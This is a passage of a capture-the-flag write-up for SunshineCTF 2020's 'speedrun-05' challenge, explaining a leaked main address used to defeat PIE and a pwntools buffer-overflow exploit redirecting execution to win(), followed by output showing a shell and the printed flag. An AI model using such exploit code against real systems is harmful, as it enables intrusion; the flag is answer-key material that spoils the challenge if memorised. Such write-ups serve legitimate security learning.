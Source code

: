 `vuln` leaks the address of `main`, now we have the base process address and can use that to write `win` to `local_10`.  This is not unlike the previous challenge.

### Exploit

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./chall_05')

if not args.REMOTE:
    p = process(binary.path)
else:
    p = remote('chal.2020.sunshinectf.org', 30005)

p.sendlineafter('Race, life\'s greatest.\n','foobar')

p.recvuntil('Yes I\'m going to win: ')
_ = p.recvline().strip()
main = int(_,16)
binary.address = main - binary.sym.main
log.info('binary.address: ' + hex(binary.address))

payload  = b''
payload += 56 * b'A'
payload += p64(binary.sym.win)

p.sendline(payload)
p.interactive()
```

> Again, that `56` was kinda sloppy (c&p job) of me, it should have been `(0x48 - 0x10)`.  Yes, still `56`, but with some meaning.

Output:

```bash
# ./exploit_05.py REMOTE=1
[*] '/pwd/datajerk/sunshinectf2020/speedrun-05/chall_05'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to chal.2020.sunshinectf.org on port 30005: Done
[*] binary.address: 0x56475616e000
[*] Switching to interactive mode
$ id
uid=1000(chall_05) gid=1000(chall_05) groups=1000(chall_05)
$ ls -l
total 16
-rwxr-xr-x 1 root root     8536 Nov  7 07:49 chall_05
-rw-r----- 1 root chall_05   35 Nov  7 08:51 flag.txt
$ cat flag.txt
sun{chapter-four-9ca97769b74345b1}
```
